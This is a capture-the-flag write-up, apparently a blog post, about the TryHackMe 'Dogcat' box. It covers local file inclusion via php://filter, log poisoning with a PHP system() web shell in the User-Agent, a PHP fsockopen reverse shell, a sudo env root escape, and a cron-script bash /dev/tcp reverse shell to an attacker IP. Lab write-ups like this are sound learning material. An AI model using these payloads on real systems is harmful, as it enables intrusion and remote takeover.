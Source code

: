 ```yaml
---
layout: post
title:  "THM - Dogcat"
date:   2020-07-22 06:00:00 +1000
category: hacking
---
```


## Introduction
*I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!*  

This is a medium rated box, and right up front I'll say that I had to look up some hints for it. Let's begin.

## Webserver
The page description says that it's a website for viewing pictures of cats and dogs, so that's obviously a good place to start. I did run an nmap scan anyway but it's not really relevant.

The website begins with a query of the form:

``
http://10.10.77.47/?view=
``

Where the *view* parameter is either **dog** or **cat**. Entering anything else provokes a warning about the query needing to be a dog or cat.

I figured this was an LFI challenge (which it is), but I had some trouble getting it to work. 

## Null bytes? Nope.
Basic path traversal wasn't working, and I found that entering a query like 

``
http://10.10.77.47/?view=/etc/passwd%00dog
``

satisfied the dog/cat filter requirement, but only provoked errors about not being able to include the file - so null bytes actually didn't work.

After some trial and error, googling and failing, I consulted a guide and it turned out that the required query is something like:

``
GET /?view=php://filter/read=convert.base64-encode/resource=./dog/../../../../etc/passwd&ext= 
``

which returns a base64 encoded string - useable, but annoying. We can also get the apache2 access log, which I tried to poison. I was able to insert PHP code into the log file using netcat, but didn't manage to get it to execute.

Actually the first file I looked at was the source code for the webpage - index.php. This showed the code used to add the .php extension and from there I figured out how to bypass it (by putting &ext= in the URL).

I had done a little LFI before, but this was a little more complex than the simpler types I had previously seen.

## User Agent
So now I had my LFI - but I could only read a single file at a time, and only a limited set of them at that (as www-data). I had to go back to the guide again to learn that using Burp Suite we can put the payload

{% highlight php %}
<?php system($_GET['cmd']);?>
{% endhighlight %}

into the User-Agent, and from then on we can execute commands as follows:

``
GET /?view=php://filter/read=convert.base64-encode/resource=./dog/../../../../var/log/apache2/access&ext=.log&cmd=id
``

So then I had RCE, which was a big step forward. I hadn't seen this User-Agent technique before either.

## Shell
Once we've got RCE we can then send this command to get a shell:

``
GET /?view=php://filter/resource=./dog/../../../../var/log/apache2/access&ext=.log&cmd=php+-r+'$sock%3dfsockopen("10.9.10.123",1234)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b'
``

## On the box - or rather, IN the box
On the box we can run linpeas, which shows that:
1. we're in a docker container, and
2. we can run **env** as root without a password

That means we can do:

``
$ sudo env /bin/sh -p
``

And become root (in the container.) From there, the first 3 flags are easy to obtain (although I think at this point I had two already? I don't recall).

## The last one
The final flag was on the box, and not in the container. Some enumeration revealed a backup folder in /opt along with a shell script running on a frequent schedule. We could replace the contents of the backup.sh as follows:

{% highlight shell %}
echo "#!/bin/bash" > backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.9.10.123/1235 0>&1'" >> backup.sh
{% endhighlight %}

And then it was just a matter of waiting a little for the schedule to run.

## Overall
This box was a little tougher than I thought it would be and I didn't do it all on my own. I did give it a pretty good go though, and I definitely learned some things. 


